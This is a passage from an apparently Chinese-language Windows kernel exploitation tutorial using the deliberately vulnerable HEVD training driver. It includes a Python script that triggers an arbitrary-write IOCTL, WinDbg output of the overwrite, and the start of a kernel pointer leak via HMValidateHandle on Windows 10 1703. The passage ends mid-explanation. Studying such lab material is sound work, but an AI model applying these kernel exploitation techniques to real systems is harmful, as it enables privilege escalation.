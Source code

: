 这里说一下，后面会用到HEVD的一个Windows Kernel Exploition训练项目

[HackSysExtremeVulnerableDriver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)

还需要一个驱动装载工具，用于注册HEVD编译出来的.sys驱动文件

[OSRloader](https://www.osronline.com/article.cfm?article=157)

用该脚本来触发ArbraryWrite这个洞

```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\.HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
    print "[-] Couldn't get Device Driver handle."
    sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

windbg显示这样，将内容`0x4141414141414141`往地址`0x4242424242424242`上写入

```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000002090E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere-&gt;What: 0x4141414141414141
[+] UserWriteWhatWhere-&gt;Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```



## 0x004 How to Exploit it?

还是回到最主要的一个问题：如何取得pvScan0的内核地址？

很幸运，在Windows 10 1703上还有另外的方法帮助我们预测pvscan0指针的内核地址，通过合理构造，准确性能够提高到100%。但首先的，我们要得到HMValidateHandle的调用地址。

HmValidateHandle比较有意思，我们只需给它提供一个窗口句柄，然后它就会将在桌面堆中的tagWND对象指针返回回来，拿到该指针就相当于完成了内核信息泄露

先去找到user32.IsMenu方法

```
kd&gt; u user32!IsMenu
USER32!IsMenu:
00007fff`17d489e0 4883ec28        sub     rsp,28h
00007fff`17d489e4 b202            mov     dl,2
00007fff`17d489e6 e805380000      call    USER32!HMValidateHandle (00007fff`17d4c1f0)
00007fff`17d489eb 33c9            xor     ecx,ecx
00007fff`17d489ed 4885c0          test    rax,rax
00007fff`17d489f0 0f95c1          setne   cl
00007fff`17d489f3 8bc1            mov     eax,ecx
00007fff`17d489f5 4883c428        add     rsp,28h

```
